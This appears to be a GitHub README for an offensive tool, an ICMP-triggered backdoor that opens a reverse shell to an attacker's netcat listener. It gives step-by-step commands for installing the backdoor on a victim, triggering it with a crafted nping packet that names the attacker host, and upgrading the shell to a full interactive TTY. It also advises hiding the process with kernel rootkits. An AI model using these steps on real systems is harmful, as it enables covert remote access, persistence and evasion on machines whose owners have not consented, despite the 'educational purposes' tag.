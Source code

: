 # ICMP Backdoor
A cool ICMP listener and reverse shell. Ideally, should be used in conjunction with a LKM rootkit like [Diamorphine](https://github.com/m0nad/Diamorphine) or [libprocesshider](https://github.com/gianlucaborello/libprocesshider) to hide the process. Hypothetically, this could be turned into shellcode and injected into processes with `ptrace`, but I wouldn't recommend it since this implementation isn't really minimal.

If you don't want to use `nping` to trigger the reverse shell, you can use the `live-off-the-land` version, which just requires `ping` and `nc`.

*for educational purposes!*

# Usage
On the host machine, compile and run:
```
$ make
$ sudo ./backdoor
```
You can also ensure:
```
$ ./backdoor -v
Secret Key:		wA@2mC!dq
Service Name:	        backdoor
Shell Path:		/bin/bash
```
On the attacker machine start a netcat listener:
```
$ nc -lnvp <port>
```
And send an ICMP packet to the victim:
```
$ nping --icmp -c 1 -dest-ip <victim-ip> --data-string <secret-key> <attacker-ip> <port>'
```
Now you have your shell!
```
$ nc -l -p 4096
/bin/bash
ls
bin
boot
dev
etc
home
keybase
lib
lib64
lightdm
lost+found
media
mnt
nix
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
```

# Adding TTY
If you want to make your shell actually usable with TTY, here's my process. Or alternatively, check out [these](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) [guides](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) on upgrading your shell.

First, on your host machine, ensure you're using bash:
```
$ bash
$ 
```
Then initiate your reverse shell:
```
$ nc -l -p 4096
/bin/bash
ls
bin
boot
dev
etc
...
```
Then use python to get a pseudo-terminal:
```
/bin/bash
python -c 'import pty; pty.spawn("/bin/bash")'
[root@user /]#
```
From here exit out of the terminal and do:
```
/bin/bash
python -c 'import pty; pty.spawn("/bin/bash")'
[root@user /]#
Ctrl-Z
$ stty raw -echo
$ fg
```
From here your terminal will be pretty messed up:
```
nc -lvp 4096
            [cursor somewhere here]
```
Reset the terminal via the command `reset`. You might not be able to press `enter` - if you can't, use `Ctrl-J` instead.
```
nc -lvp 4096
            reset
...
[root@Synch /]#
```
From here, do all the basic terminal setting stuff:
```
[root@Synch /]# export SHELL=bash
[root@Synch /]# export TERM=xterm-256color
[root@Synch /]# stty rows <num> columns <cols>
```
Then you should be done! Vim/nano/etc should work decent from here.
